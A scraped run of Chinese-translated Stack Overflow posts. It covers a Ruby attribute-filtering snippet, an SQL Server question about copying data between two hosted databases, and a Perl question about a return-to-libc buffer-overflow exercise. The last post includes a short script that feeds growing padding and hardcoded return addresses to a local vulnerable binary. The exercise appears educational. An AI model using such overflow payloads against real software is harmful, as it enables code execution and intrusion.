 ...然后在稍后的某种过滤步骤中使用它：

```
 attrs = { :a => 1, :z => 0 }
  foo.update_attributes(attrs.slice(*foo.defined_attributes)) 
```

# sql - 我可以将数据从一个托管数据库导入到另一个托管数据库吗？

> ID：13571008
> 
> 赞同：0
> 
> 时间：2012-11-26T18:35:28.200
> 
> 标签：sql, sql-server

我有两个通过 SSMS 远程连接的数据库，它们都托管在 GoDaddy 的服务器上，但不在同一台服务器上。

我想对两个数据库运行一个脚本，从 db1 中提取一些数据，然后将数据导入 db2。

**无论如何我可以做到这一点，或者我会更好地编写一个可以访问两个 SQL 连接并从那里运行脚本的小程序？**

db2 中的数据将仅保存其中一个 db1 表中几列的值。

* * *

## 回答 #1

> 赞同：1
> 
> 时间：2012-11-26T18:39:41.673

通常，您可以通过 DTS（导入/导出向导）使用 SSMS 导出/导入数据。右键单击数据库节点并选择任务->导入或任务->导出时访问向导

# perl - 将十六进制字符作为参数传递的正确方法 - system()

> ID：13571014
> 
> 赞同：3
> 
> 时间：2012-11-26T18:35:51.653
> 
> 标签：perl, buffer-overflow

我正在处理缓冲区溢出问题，并且正在尝试执行返回 libc 漏洞。为了帮助我，我设计了以下 perl 脚本：

```
#!/usr/bin/perl

for ($i = 1; $i < 200; $i++) {
    print "count: $i\n";
    system("echo 1 | ./vuln " . "A"x$i . "\x20\x83\x04\x08AAAA\x5c\xf9\xff\xbf");
} 
```
